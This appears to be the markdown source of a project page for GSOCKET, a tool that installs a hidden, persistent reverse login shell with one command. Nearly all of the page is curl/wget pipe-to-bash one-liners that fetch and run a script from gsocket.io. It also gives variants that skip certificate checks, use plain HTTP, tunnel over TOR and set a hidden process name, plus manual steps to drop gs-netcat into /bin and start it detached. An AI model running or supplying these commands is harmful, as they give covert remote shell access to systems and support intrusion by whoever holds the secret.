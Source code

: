 ```yaml
---
layout: default
---
```


<p class="panel-note2" markdown="1">Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like.</p>



> _This must be the quickest way to access a system_
>                                                 -- anonymous

Use either one of these two commands to _deploy_:
```shell
bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
bash -c "$(wget --no-verbose -O- gsocket.io/x)"
```

Use either one of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"
```

Use either command to _access_ the remote host:
```shell
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
S="ExampleSecretChangeMe" bash -c "$(wget -qO- gsocket.io/x)"
```

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

Ignore SSL / Certificate warnings:
```shell
bash -c "$(curl -fsSLk gsocket.io/x)"
```
```shell
bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
```

Deploy with a predefined secret:
```shell
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
```

Deploy with *curl* and fallback to *wget*:
```shell
command -v curl >/dev/null && bash -c "$(curl -fsSL gsocket.io/x)" || bash -c "$(wget -qO- gsocket.io/x)"
```

Deploy with a predefined secret. Try *curl* and fallback to *wget*:
```shell
X=ExampleSecretChangeMe && (command -v curl >/dev/null && X=$X bash -c "$(curl -fsSL gsocket.io/x)" || X=$X bash -c "$(wget -qO- gsocket.io/x)")
```
  
Deploy from self-extracting shell-script [deploy-all.sh](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh) without fetching any packages and using good old plain HTTP:
```
wget --no-hsts http://nossl.segfault.net/deploy-all.sh && \
bash ./deploy-all.sh
```

Useful environment variables:  

|:---|:---|
|S=|Connect to a system (or use `gs-netcat -s <secret> -il`).|
|X=|Set a predefined secret for the installation (X like in inXstallation).|
|GSOCKET_ARGS=|Use additonal arguments. Most often used to force TOR in combination with S=, e.g. `GSOCKET_ARGS="-T" S=<secret> bash -c "$(curl -fsSLk gsocket.io/x)`.|
|GS_DSTDIR=|Set the installation directory. The default is to pick the most suitable automatically.|
|GS_URL_BASE=|Use URL for static binaries. The default is https://github.com/hackerschoice/binary/raw/main/gsocket/bin/.|
|GS_OSARCH=|Force architecture. The default is to pick the most suitable automatically.
|GS_DEBUG=1|Verbose output and other debug related settings. Often used together with `GS_DEBUG=1 GS_NOSTART=1 GS_NOINST=1 bash -c "$(curl -fsSL gsocket.io/x)"`.|
|GS_HIDDEN_NAME=|Use a custom hidden process name.|
|TMPDIR=|Use a custom temporary directory. Try TMPDIR=$(pwd)|

If all fails:

Download the static binary from [https://github.com/hackerschoice/binary/tree/main/gsocket/bin](https://github.com/hackerschoice/binary/tree/main/gsocket/bin) (likely [gs-netcat_x86_64-alpine.tar.gz](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz)) and extract and start gs-netcat manually:
```shell
curl -fsSL https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 
```

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>



